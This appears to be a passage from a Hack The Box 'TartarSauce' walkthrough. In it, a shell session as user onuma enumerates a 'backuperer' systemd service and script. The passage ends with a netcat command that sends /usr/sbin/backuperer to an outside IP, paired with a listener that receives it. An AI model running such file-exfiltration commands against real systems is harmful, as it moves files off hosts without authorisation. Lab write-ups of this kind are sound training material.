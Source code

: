 
![](2021-01-15-16-50-41.png)

onuma@TartarSauce:~$ locate backuperer
/etc/systemd/system/multi-user.target.wants/backuperer.timer
/lib/systemd/system/backuperer.service
/lib/systemd/system/backuperer.timer
/usr/sbin/backuperer

onuma@TartarSauce:~$ cat /lib/systemd/system/backuperer.service
[Unit]
Description=Backuperer

[Service]
ExecStart=/usr/sbin/backuperer


onuma@TartarSauce:~$ file /usr/sbin/backuperer
/usr/sbin/backuperer: Bourne-Again shell script, UTF-8 Unicode text executable


nc 10.10.14.6 8888 < /usr/sbin/backuperer

nc -lvnp 8888 > backuperer.sh